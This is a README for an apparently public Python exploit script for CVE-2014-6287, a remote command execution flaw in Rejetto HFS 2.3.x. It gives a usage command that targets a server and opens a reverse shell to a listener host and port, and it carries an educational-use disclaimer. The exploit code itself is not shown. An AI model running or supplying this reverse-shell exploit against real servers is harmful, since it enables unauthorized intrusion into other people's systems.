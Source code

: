 # Project Title

CVE-2014-6287 Rejetto HFS (HTTP File Server) 2.3.x - Remote Command Execution

## Description

A python3 script for the CVE-2014-6287 Rejetto HFS exploit in order get a reverse shell.

## Getting Started

### Executing program

* With python3
```
python3 hfs.py -t http://hfssite.com -lhost 127.0.0.1 -lport 9001
```

## Help

For help menu:
```
python3 hfs.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
